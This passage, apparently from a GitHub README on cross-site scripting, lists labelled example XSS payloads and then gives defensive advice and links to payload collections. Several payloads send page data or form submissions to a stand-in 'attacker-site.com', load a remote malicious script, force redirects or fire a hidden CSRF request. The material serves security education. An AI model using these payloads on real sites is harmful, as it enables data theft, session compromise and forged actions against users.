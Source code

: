  Form Manipulation:
   ```
   <script>document.forms[0].action='https://attacker-site.com/collect.php';document.forms[0].submit();</script>
   ```
 Data Theft:
   ```
   <script>var sensitiveData=document.getElementById('sensitive-data').innerHTML;new Image().src='https://attacker-site.com/collect.php?data='+encodeURIComponent(sensitiveData);</script>
   ```

 DOM Modification:
   ```
   <script>document.getElementById('target-element').innerHTML='<img src=x onerror=alert("DOM XSS example!")>'; </script>
   ```
 URL Redirection:
   ```
   <script>if (window.top.location !== window.location) { window.top.location.href = 'https://attacker-site.com/evil.html'; }</script>
   ```
 Remote Code Execution:
   ```
   <script src="https://attacker-site.com/malicious.js"></script>
   ```

 Cross-Site Request Forgery (CSRF):
   ```
   <img src="https://vulnerable-site.com/api/vote?userid=123&vote=1" width="0" height="0" style="display:none;">
   ```


**[ ! ] The examples provided are simplified illustrations of XSS vulnerabilities, and the world of web security is constantly evolving. XSS attacks can take various forms, and new techniques and exploits continue to emerge as technology progresses.**

**It's crucial for developers, security professionals, and organizations to stay updated on the latest security best practices, regularly patch software vulnerabilities, and employ robust security measures to mitigate the risks associated with XSS and other web application vulnerabilities. It's also important to perform thorough security testing, including input validation, output encoding, and security code reviews, to identify and address potential vulnerabilities.**

**As attackers find new ways to exploit weaknesses in web applications, it's vital for defenders to remain vigilant and continuously adapt their security strategies to ensure the protection of user data and the integrity of web systems.**

## Understanding the Impact of XSS Attacks
XSS attacks can have severe consequences, including:
- Theft of sensitive user information (e.g., login credentials, personal data)
- Session hijacking
- Defacement of websites
- Delivery of malware or ransomware
- Phishing attacks
- Spread of worms and viruses


##  Payload Resources

 - [Payload Box](https://github.com/payloadbox/xss-payload-list)
 - [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 